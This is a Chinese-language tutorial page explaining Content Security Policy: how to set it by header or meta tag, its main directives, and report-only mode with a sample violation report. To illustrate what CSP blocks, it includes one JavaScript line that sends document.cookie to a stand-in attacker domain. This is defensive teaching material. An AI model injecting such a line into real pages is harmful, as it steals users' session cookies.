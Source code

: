 ```yaml
---
title: CSP 浏览器内存安全策略
toc: true
date: 2021-08-11 19:18:36
permalink: /pages/91d0f1/
categories:
  - 安全
sidebar: auto
---
```


## 什么是CSP?  ##

这里一段定义是来自于MDN社区
> Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft to site defacement or distribution of malware.

内容安全策略(CSP)是一种web应用技术用于帮助缓解大部分类型的内容注入攻击，包括XSS攻击和数据注入等，这些攻击可实现数据窃取、网站破坏和作为恶意软件分发版本等行为。该策略可让网站管理员指定客户端允许加载的各类可信任资源。

参考来源

https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

## 使用CSP的两种方式

 - 通过服务器 HTTP 头部的 Content-Security-Policy 来指定
 - 通过 HTML 文档的 meta 标签配置策略

 例如：

 使用 HTTP 头部，这里的 policy 为策略字符串

 ```
 Content-Security-Policy: policy
 ```

使用 HTML meta 标签的方式

 ```HTML
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
 ```

 ## 主要防范目标

 CSP主要是防范 XSS 攻击，以及报告 XSS 攻击，如果页面存在漏洞让 JS 脚本注入，CSP 能限制脚本的运行，然后把损失降到最小

 

 ``` Javascript
 (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

 ```

 CSP 是通过限制加载到页面上的资源、域或者协议来实现的，例如，一旦入侵者找到漏洞注入了XSS攻击，入侵者可以通过 图片Ping的方式发送敏感信息到外部网站。CSP 可以指定允许信任域名下的图片、Script和样式表被加载到页面上，及时入侵者 XSS 入侵成功也无法通过这些方式发送数据，保证网站一定程度上安全。

 TODO 几个例子限制加载的资源


另外 CSP 也提供了只允许加载指定协议，例如HTTPS的资源，否则自动跳转到 HTTPS 版本。


## 使用 CSP 


当我们需要使用CSP生效就需要编写相应的策略，策略包括一系列指令组成和设置定的值组成。

例如，一个网站管理者允许内容来自信任的域名及其子域名 

```
Content-Security-Policy: default-src 'self' *.trusted.com

```

我们再看一条策略：

```
Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com

```

这条策略有4个指令 img-src 为图片资源，media-src 为视频媒体资源，script-src 为脚本资源。最重要的一个是 default-src 为所有的资源默认属性，这里设置为了 ‘self’ 的含义为所有的资源再不指定的情况下只能从自身域下加载。

TODO 描述 行内脚本


## 资源

<host-source>
<scheme-source>
	self
	unsafe-inline
	unsafe-eva
	none
	nonce-<base64值>
	strict-dynamic



### 

 TODO 讲解这几种模式

## 报告违规情况

CSP 提供了另外一个非常有用的模式 - 报告模式，如果在 HTTP 头部指定 Content-Security-Policy-Report-Only 可以将发生了任何违规的事件都会被报告出去，但是这个头部只会对报告生效，实际生效还是需要 在Content-Security-Policy 中指定。

在报告的策略中需要配置一个 report-uri 用于服务器接受违规报告情况，例如：


```

Content-Security-Policy: default-src 'self'; report-uri http://reportcollector.example.com/collector.cgi


```

浏览器会向 report-uri 中指定的地址使用 POST 发送一个 JSON 格式的数据包。


数据包格式如下：

``` JSON

{
  "csp-report": {
    "document-uri": "http://example.com/signup.html",
    "referrer": "",
    "blocked-uri": "http://example.com/css/style.css",
    "violated-directive": "style-src cdn.example.com",
    "original-policy": "default-src 'none'; style-src cdn.example.com; report-uri /_/csp-reports"
  }
}

```




